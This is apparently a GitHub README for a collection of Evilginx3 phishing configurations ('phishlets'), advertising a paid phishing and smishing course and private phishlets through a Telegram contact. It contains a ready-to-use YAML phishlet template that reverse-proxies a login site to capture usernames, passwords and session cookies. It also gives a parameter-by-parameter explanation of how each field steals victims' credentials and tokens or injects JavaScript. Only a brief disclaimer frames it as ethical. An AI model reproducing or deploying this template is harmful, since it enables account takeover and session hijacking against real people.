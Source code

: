 # Updated Evilginx3 Phishlets  
I've dedicated substantial time and effort to create and update new phishlets for Evilginx3. 
In this repository, you'll find many custom Evilginx phishlets, finely crafted and updated to suit real-world applications.


# FOR [Advanced EvilGoPhish Mastery Course] CONTACT IN MY TELEGRAM  -  https://t.me/hidden9090         

     

This is a course for the advanced hackers, red teams, and penetration testers looking to gain an edge in today's security environment. 
Learn advanced phishing & smishing techniques with EvilGoPhish 3.0, one of the most powerful reverse-proxy phishing tools available.

EvilGoPhish Mastery is *bar none* the most dynamic and nuanced reverse-proxy phishing course on the market.

The course works in tandem with this repo by diving deep into the entire process of deploying these scripts for red team phishing & smishing campaigns.



# Curriculum Previews:

![Screenshot 2024-06-01 064917](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/f506630f-06ff-4285-9c09-26fbcf57a588)
![evilgophish 3 0 course preview release setup section trailer](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/9be0b731-6934-4d52-ba7c-becb43141a96)
![Evilgophish mastery course cloudflare turnstile lesson preview www simplerhacking](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/0c22ecc6-9b6d-44c0-bf3f-e8624ecbd917)

![Screenshot 2024-06-01 044437](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/6a295035-e41a-4c9a-956a-c0366129088c)



![EvilGoPhish Mastery Curriculum Preview from Simpler Hacking (1)](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/cb043987-2315-47dc-abf6-9e508d7c1128)

![EvilGoPhish Mastery Curriculum Preview from Simpler Hacking (2)](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/6a3dd41e-72b4-4701-9675-53f8c765a246)

![(Smaller 8 MB for Github) evilgophish kuba graphic in moving format and gif short 8 second loop](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/cba899aa-e100-4af9-b621-f5dce14b2786)




## Need Custom Phishlets? 
MY TELEGRAM  -  https://t.me/hidden9090


##

## Simpler Hacking Evilginx Phishlet Template (Use this template to make your own!)

```yaml
name: 'Your First Phishlet'
author: 'Simpler Hacking'
min_ver: '3.2.0'

proxy_hosts:
  - { phish_sub: 'www', orig_sub: 'www', domain: '{domain}', session: true, is_landing: true }

sub_filters: 
  - { hostname: '{hostname}', sub: 'www', domain: '{domain}', search: '{domain}', replace: '{hostname}', mimes: ['text/html', 'application/javascript', 'text/css', 'application/json', 'image/x-icon', 'text/plain', 'application/xml', 'image/*', 'font/*']} 
  - { hostname: '{hostname}', sub: 'www', domain: '{domain}', search: '{domain}', replace: '{hostname}', mimes: ['application/x-www-form-urlencoded']}

auth_tokens:
  - domain: '{domain}'
    keys: ['session']

creds:
  - key: 'username'
    search: ['(.*)']
    type: 'post'
  - key: 'password'
    search: ['(.*)']
    type: 'post'

auth_urls:
  - url_regex: 'https://{hostname}/login'
    valid_statuses: [200]

login:
  username: user
  password: pass
  url: https://www.{domain}/login

# This is just a demo example of a phishlet for 3.2.0


```
**Explanation of Phishlet Parameters:**

- `name:` Identifies the name of the phishlet.
- `author:` Specifies the phishlet author.
- `min_ver:` Specifies the minimum Evilginx version that is compatible with your phishlet.
- `proxy_hosts:` Indicates the domain and subdomains to proxy. The `phish_sub` is the subdomain that the phishing page will imitate.
- `sub_filters:` Allows the phishlet to replace instances of the actual domain name with the phishing domain, which is critical for the phishing page to function correctly.
- `auth_tokens:` Identifies the cookies that should be captured from the victim's browser to gain access to the victim's session.
- `creds:` This field determines the credentials that the phishlet is engineered to steal. The `key` is the name of the credential (like username or password) and `search` is a regular expression that the program will use to identify and extract these details from the user's input.
- `auth_urls:` Defines the URLs that Evilginx will treat as the authenticated URLs. After the victim logs in, Evilginx will look out for a redirect to one of these URLs, at which point it will steal the listed `auth_tokens`.
- `login:` Here you specify the identifiers of the username and password fields in the login form on the original webpage. The `url` is the link of the page where the victim enters their credentials.
- `force_post:` If set to true, it forces the alteration of HTTP method from GET to POST.
- `is_landing:` If set to true, it means that the page is a landing page for the phishing attack.
- `js_inject:` This is where you can write some JavaScript to be injected in the webpage. It's typically used to enhance the phishing attack and ensure a smoother victim experience.
- `domain:` This is a template variable used to replace target hostname used in phishlet configuration.



## Want more Evilginx Phishlets not available on Github? 
Gain access to more private Phishlets not available to the public Contact me  -  https://t.me/hidden9090




<img width="264" alt="Patreon" src="https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/3e9d587d-0792-4dad-a6d2-aaa004197508">



### Enroll in our training lessons 

CONTACT :-
MY TELEGRAM  -  https://t.me/hidden9090
## Disclaimer
The tools here are intended solely for legal and ethical use by cybersecurity professionals in controlled environments. 
Any illegal or malicious use is strictly prohibited.
I disclaim all responsibility for any harm, loss, or damage that may arise from improper use.
